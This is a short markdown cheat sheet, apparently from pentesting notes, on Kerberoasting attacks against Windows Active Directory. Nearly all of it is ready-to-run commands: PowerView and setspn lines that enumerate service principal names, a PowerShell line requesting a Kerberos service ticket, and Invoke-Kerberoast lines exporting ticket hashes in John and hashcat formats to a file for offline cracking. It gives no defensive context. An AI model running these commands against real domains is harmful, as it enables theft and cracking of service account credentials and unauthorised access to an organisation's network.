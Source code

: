 # Kerberoast

## Find SPN

### Powerview

```text
. .\powerview.ps1
Get-NetUser -SPN
```

### Powershell

```text
setspn -T domain -Q */*
```

## Request a TGS

### Powershell

```text
Add-Type -AssemblyName system.identitymodel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/lab.domain.local"
```

### Invoke-Kerberoast

```text
 Invoke-Kerberoast -OutputFormat John  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
 Invoke-Kerberoast -OutputFormat hashcat  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
```



